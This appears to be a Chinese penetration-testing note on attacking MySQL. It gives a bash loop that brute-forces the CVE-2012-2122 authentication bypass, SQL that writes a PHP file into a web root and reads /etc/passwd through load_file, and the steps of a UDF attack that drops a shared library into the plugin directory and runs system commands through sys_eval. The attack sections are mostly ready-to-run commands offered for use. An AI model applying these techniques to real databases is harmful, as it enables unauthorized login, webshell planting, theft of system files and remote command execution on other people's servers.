




---
tags:
  - database
create_time: 2024-07-27 14:20
modified_time: 2024-07-27 14:20
status: complete
---
## 0x01 CVE-2012-2122

当连接 MariaDB/MySQL 时，输入的密码会与期望的正确密码比较，由于不正确的处理，会导致即便是 memcmp () 返回一个非零值，也会使 MySQL 认为两个密码是相同的。也就是说只要知道用户名，不断尝试就能够直接登入 SQL 数据库。按照公告说法大约 256 次就能够蒙对一次

影响版本：

All MariaDB and MySQL versions up to 5.1.61, 5.2.11, 5.3.5, 5.5.22 are vulnerable
MariaDB versions from 5.1.62, 5.2.12, 5.3.6, 5.5.23 are not.
MySQL versions from 5.1.63, 5.5.24, 5.6.6 are not.


- 通过 bash 脚本直接进行爆破攻击

```bash
for i in `seq 1 1000`; do mysql -uroot -pwrong -h your-ip -P3306 ; done
```

## 0x02 读取写入文件

在利用 sql 注入漏洞后期，最常用的就是通过 mysql 的 file 系列函数来进行读取
敏感文件或者写入 webshell，其中比较常用的函数有以下三个 into dumpfile ()、
Into outfile ()、load_file ()

限制条件：mysql 的读写文件都受到 secure_file_priv 参数的影响。
​	这个值可以通过命令 select @@secure_file_priv 查询。由于这个参数不能动态更改，只能在 mysql 的配置
文件中进行修改，然后重启生效。
- 其中当参数 secure_file_priv 为空时，对导入导出无限制
- 当值为一个指定的目录时，只能向指定的目录导入导出
- 当值被设置为 NULL 时，禁止导入导出功能


## 0x03 mysql 文件写入

```mysql
show VARIABLES LIKE "secure_file_priv";
select '<?php phpinfo()?>' into outfile '/var/www/html/1.php';
```



## 0x04 mysql 文件读取

```mysql
Create database test2;
Use test2
Create table user(cmd text);
insert into user(cmd) values (load_file('/etc/passwd’));

Select * from user;
```


## 0x05 mysql udf 使用

- Udf = 'user defined function'，即用户自定义函数。是通过添加新函数，对 MYSQL 的功能进行扩充，性质就象使用本地 MYSQL 函数如 abs () 或 concat ()。

攻击思路：
1. 编写一个系统命令调用函数；
2. 加载到 mysql 功能中；
3. 调用该函数执行系统命令。

1. 使用 `show variables like “%plugin%”;` 查看插件路径情况


2. 获取 udf 脚本，参考链接:https://github.com/rapid7/metasploitframework/tree/master/data/exploits/mysql
3. 使用 mysql 数据库的命令将 udf 插件写入插件目录：`select unhex("77,90,144…") into dumpfile '/usr/local/mysql/lib/plugin/udf.so';`

4. 使用刚才导入的插件，调用命令执行函数：`create function sys_eval returns string soname 'mysqludf.so';`
   


5. 导入成功后尝试命令执行 `select sys_eval(‘ifconfig’)`
